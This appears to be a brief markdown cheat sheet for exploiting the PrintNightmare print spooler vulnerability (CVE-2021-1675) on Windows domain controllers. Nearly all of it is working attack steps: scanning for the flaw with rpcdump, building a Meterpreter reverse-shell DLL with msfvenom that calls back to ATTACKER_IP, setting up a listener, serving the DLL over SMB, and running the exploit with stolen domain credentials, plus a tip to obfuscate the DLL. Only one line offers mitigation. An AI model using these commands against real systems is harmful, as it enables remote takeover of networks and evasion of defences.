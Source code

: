 https://github.com/cube0x0/CVE-2021-1675
https://github.com/calebstewart/CVE-2021-1675

# check for vulnerability

```
rpcdump.py @DC_IP | egrep 'MS-RPRN|MS-PAD'
```


## Showcase 
create a rev_shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f dll > shell.dll
```

run msfconsole
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
options
set lport PORT
set lhost ATTACKER_IP

```

hosting smb server

```
smbserver.py share `pwd` (to share the current directory ) -smb2support

```

# running payload
```
python3 CVE DOMAIN/USER:PASSWORD@IP '\\ ATTACKER_IP\SHARE\shell.dll'
```

Obfuscate the shell.dll

# Mitigation
- Disable Spooler service 